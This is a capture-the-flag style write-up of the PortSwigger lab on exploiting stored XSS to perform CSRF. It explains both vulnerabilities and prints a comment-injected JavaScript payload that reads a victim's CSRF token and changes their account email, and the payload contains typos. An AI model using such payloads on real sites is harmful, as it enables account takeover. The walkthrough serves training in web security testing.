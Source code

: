 ### Exploiting XSS to perform CSRF

 ### Lab description:-
 ![img](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/description.png)

 ### Introduction
 - **Stored XSS**, also known as persistent XSS which occurs when a malicious script is injected directly into a vulnerable web application. 
 - **Cross-site request forgery (also known as CSRF)** is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.
  
 ### Steps:

- let's start with check the blog comments to know how to exploit XSS at it by typing darsh'"< > to show if it will accept these quotes and brackets or not ?!

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/check.png)

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/darsh.png)

  as we see in the source page in last figure they are printed as they are written, *so we can write any script in the comment*. 
 
 - 2nd step is to login using given user name and password and update the email with to be attacker@gmail.com

 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/login.png) 
 
 ![](email.png)
 
 - 3rd step is to go to the burpsuite to see the request sent when we update the email 
 
 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/email.png)
 
     and as we see the request send the email and csrf in the request.
 
 - *the most important step is how we can use XSS to peform CSRF and change the user email by any email we want*
     we need to write scipt in comment page which send get request to account page to take the CSRf from it and send it with email we want ( i use darsh@gmail.com)
     to update the user email with this email.
     
    ```js:<script>
    var request = new XMLHttpRequest() ;
    request.onreadystatechange = changeEmail;
    request.open("get","/my-account",true)
    request.send() ; 
    function changeEmail(){
      var token = thins.reposeText.match(/name ="csrf" value= "(\w+)"/)[1] ;
      var change = new XMLHttpRequest();
      change.open("post","/my-account/change-email",true);
      change.send("email=darsh@gmail.com&csrf="+token) ;

    }

</script>
 
   ** This script send get request to account page to take the CSRf from it and send it with email we want (darsh@gmail.com)
    (post req)to update the user email with this email and then put it as a comment in blog comments page **
    
    ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/comment.png)
   
   after that if we return to account page we see that the email changed successfuly.
   
   ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/done.png)
   
